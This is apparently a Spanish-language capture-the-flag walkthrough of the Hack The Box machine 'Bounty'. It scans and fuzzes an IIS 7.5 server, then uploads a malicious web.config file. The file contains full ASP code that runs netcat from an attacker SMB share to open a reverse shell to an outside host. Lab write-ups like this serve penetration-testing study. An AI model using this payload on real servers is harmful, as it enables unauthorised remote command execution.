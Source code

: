 Hacemos el escaneo de nmap:
![[Pasted image 20240123095849.png]]
Donde vemos que se trata de un IIS en su versión 7.5:
![[Pasted image 20240123095912.png]]
Y esto corre por el puerto 80:
![[Pasted image 20240123095812.png]]
Añadimos el dominio de bounty.htb al /etc/hosts:
![[Pasted image 20240123102057.png]]
Hacemos fuzzing web en busca de directorios y extensiones, donde vemos transfer.aspx:
![[Pasted image 20240123100216.png]]
Y si quitamos lo de las extensiones de archivos, vemos un /uploadedfiles:
![[Pasted image 20240123102345.png]]
Por tanto, la primera ruta vemos que se trata de un panel de subida de archivos:
![[Pasted image 20240123100147.png]]
Y en la de uploadedfiles no tenemos acceso:
![[Pasted image 20240123102415.png]]
Si investigamos por internet, vemos que podemos subir archivos con extensión .config:
![[Pasted image 20240123100805.png]]
Por tanto, debemos de crear un archivo con extensión .config que tenga formato xml y pueda ejecutar comandos, el cual será el siguiente:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 443")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```
Se subió correctamente:
![[Pasted image 20240123101738.png]]

